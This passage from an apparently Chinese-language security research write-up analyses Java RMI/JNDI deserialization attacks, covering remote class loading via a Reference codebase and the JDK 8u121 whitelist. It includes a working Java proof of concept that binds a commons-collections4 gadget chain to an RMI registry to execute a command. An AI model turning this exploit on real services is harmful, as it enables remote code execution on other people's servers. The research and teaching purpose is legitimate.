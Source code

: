 最后，会通过这一行代码

```
clas = helper.loadClass(factoryName, codebase);
```



完成对远程class的读取加载，其中factoryName为我们服务端bind服务时传的Reference的Calc值，而codebase则是http://localhost/，就这样，我们就可以让客户端在lookup的时候，无需其他gadget，直接让其加载远程恶意class，达到RCE。

原理上来说，这属于一种后序列化的触发gadget，因为对于RMI来说，Reference对象也是需要反序列化远程RMI注册中心返回的序列化数据而构造出来的，只是说在其反序列化构造期间，它并没有直接触发RCE，而是在其被反序列化后，一系列对Reference对象方法的执行而触发，我们可以称之为“后反序列化”吧！

### 二、jdk版本 = jdk8u121

#### 反序列化白名单机制

在jdk8u121的时候，加入了反序列化白名单的机制，导致了几乎全部gadget都不能被反序列化了，究竟有哪些类被列入白名单呢？我们一探究竟

那，我们直接bind一个恶意gadget到RMI Registry看看吧

```
/**
 * RMI服务端攻击RMI Registry
 *
 * 需要服务端和注册中心都存在此依赖 org.apache.commons:commons-collections4:4.0
 *
 * @author threedr3am
 */
public class AttackRMIRegistry {

  public static void main(String[] args) {
    try {
      Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
      Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("threedr3am", makePayload(new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})), Remote.class);
      registry.bind("hello", remote);
    } catch (AlreadyBoundException | RemoteException e) {
      e.printStackTrace();
    } catch (Exception e) {
      e.printStackTrace();
    }
  }

  private static Object makePayload(String[] args) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(args[0]);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;
    return queue;
  }
}
```